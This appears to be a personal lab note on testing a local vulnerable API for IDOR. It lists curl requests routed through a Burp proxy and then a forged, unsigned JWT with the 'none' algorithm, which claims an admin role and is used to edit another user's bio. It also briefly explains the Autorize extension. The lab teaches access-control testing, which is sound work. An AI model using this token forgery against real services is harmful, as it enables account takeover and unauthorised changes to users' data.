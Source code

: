 ```Markdown

	- curl -X POST -x 127.0.0.1:8080 -H "Content-Type: application/json" 
		-d '{"username": "admin", "password": "password123"}' http://localhost/labs/api/login.php

## GET /account.php

	- curl -X GET -x 127.0.0.1:8080 "http://localhost/labs/api/account.php?token=JWT" 
	                    
	  [paste ur token in the JWT part]

## PUT /account.php

	- curl -X PUT -x 127.0.0.1:8080 -H "Content-Type: application/json" -d '{"token": "JWT", "username":"username", "bio": "New bio information."}' http://localhost/labs/api/account.php
```

  

### PERFORM IDOR :

### ==**This is jeremy’s JWT token :**==

- ==eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.==

  

NOW we will use this “ ==eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.== ” JWT TOKEN which belongs to jessamy.

  

### ==Now with that JWT token lets try to update the jessamy’s bio.==

==BEFORE :==

![[image 29.png|image 29.png]]

AFTER :

![[image 1 11.png|image 1 11.png]]

## ==Testing with Autorize :==

```Markdown
# What is Autorize ? 

		- Autorize is a Burp Suite extension used to detect 
			broken access controls and authorization flaws — like:
			
				- IDOR (Insecure Direct Object Reference)

				- Privilege escalation

	      - Vertical/horizontal access violations

	      - Unauthorized access to protected resources
			
```
